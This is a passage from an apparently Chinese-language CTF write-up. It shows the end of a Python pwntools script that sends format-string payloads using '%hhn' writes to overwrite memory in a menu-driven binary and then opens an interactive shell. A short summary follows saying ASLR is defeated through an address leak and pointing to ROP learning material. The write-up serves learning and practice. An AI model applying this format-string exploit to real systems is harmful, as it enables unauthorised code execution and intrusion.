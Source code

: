 ```python
        padding = 0x100+ord(part2_addr[i])-5
    else:
        padding = ord(part2_addr[i])-5
    fmtstr = "\x90"+chr(ord("\x3c")+i)+"\xd0\x04\x08%"+str(padding)+"c%8$hhn"
    p.sendline(' ')
    p.recvuntil('Choice: ')
    p.sendline('1')
    p.recvuntil('bytes): ')
    p.sendline(fmtstr)
    #p.recv()

print repr(part1_addr)
print repr(part2_addr)
#gdb.attach(p)
p.sendline(' ')
p.recvuntil('Choice: ')
p.sendline('5')
p.interactive()
```

getshell如下图，因为有地址泄露，所以有ASLR也不是问题：

![][10]

# 0x03 总结

ROP对应的课程感觉有点少，更详细的可参看蒸米的[文章](http://cb.drops.wiki/drops/tips-6597.html)。总是拿printf搞事情虽然有些无聊，但用下pwntools也好，有明确的信息让我们去了解学习是最好的事情了，多写多调也才是坚持之道。


[1]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8c7x50j20k6053dgl.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8daxttj20k40a20tv.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8e2x3dj20k104nq3g.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8f79unj20k104hjri.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fpbl8gmrlqj20k105gq3i.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8hjp4zj20py08jq3g.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8i9zycj20i30410t3.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8jbdu4j20kd09dwem.jpg
[9]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8l9yv1j20iu05ct8p.jpg
[10]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8m2y7sj20le093aao.jpg
